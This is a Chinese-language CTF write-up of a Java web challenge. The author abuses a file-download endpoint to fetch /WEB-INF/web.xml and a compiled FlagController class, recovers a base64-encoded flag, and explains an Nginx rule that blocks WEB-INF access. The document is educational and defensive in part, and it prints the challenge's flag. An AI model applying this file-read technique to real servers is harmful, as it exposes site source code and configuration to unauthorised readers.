



第一次做JAVA的题。听说CTF中JAVA的题算是比较少的。
分析

刚拿到题以为是SQL注入的题。试了一圈，没有找到注入点。扫描一下网站，看看有没有源码泄露，发现啥也没有。
回到主页面看到HELP，点一下跳到了
1
| Download?filename=help.docx
|
靠，怪自己不细心呀。
知识点补充
WEB-INF主要包含一下文件或目录:
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
/WEB-INF/database.properties：数据库配置文件
漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码
漏洞修补
通常一些web应用我们会使用多个web服务器搭配使用，解决其中的一个web服务器的性能缺陷以及做均衡负载的优点和完成一些分层结构的安全策略等。在使用这种架构的时候，由于对静态资源的目录或文件的映射配置不当，可能会引发一些的安全问题，导致web.xml等文件能够被读取。漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码。一般情况，jsp引擎默认都是禁止访问WEB-INF目录的，Nginx 配合Tomcat做均衡负载或集群等情况时，问题原因其实很简单，Nginx不会去考虑配置其他类型引擎（Nginx不是jsp引擎）导致的安全问题而引入到自身的安全规范中来（这样耦合性太高了），修改Nginx配置文件禁止访问WEB-INF目录就好了： location ~ ^/WEB-INF/* { deny all; } 或者return 404; 或者其他！
解题
当然是通过Download下载我们要的文件喽。

这里官方居然挖了一个坑,要使用POST提交才有用。
提交获取/WEB-INF/web.xml
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
| <?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
version="4.0">
<welcome-file-list>
<welcome-file>Index</welcome-file>
</welcome-file-list>
<servlet>
<servlet-name>IndexController</servlet-name>
<servlet-class>com.wm.ctf.IndexController</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>IndexController</servlet-name>
<url-pattern>/Index</url-pattern>
</servlet-mapping>
<servlet>
<servlet-name>LoginController</servlet-name>
<servlet-class>com.wm.ctf.LoginController</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>LoginController</servlet-name>
<url-pattern>/Login</url-pattern>
</servlet-mapping>
<servlet>
<servlet-name>DownloadController</servlet-name>
<servlet-class>com.wm.ctf.DownloadController</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>DownloadController</servlet-name>
<url-pattern>/Download</url-pattern>
</servlet-mapping>
<servlet>
<servlet-name>FlagController</servlet-name>
<servlet-class>com.wm.ctf.FlagController</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>FlagController</servlet-name>
<url-pattern>/Flag</url-pattern>
</servlet-mapping>
</web-app>
|
没错。。我们看到了/Flag控制器。可惜访问之后出现了500错误。没关系下载class包。
1
| WEB-INF/classes/com/wm/ctf/FlagController.class
|
提交后就直接看到我们熟悉的base64了

1
| ZmxhZ3tjNDAwZGVjNS00NTI1LTRiODUtYmY1ZS03ZTA2YmVhNTE5ZjZ9Cg==
|
解密后拿到flag
flag{c400dec5-4525-4b85-bf5e-7e06bea519f6}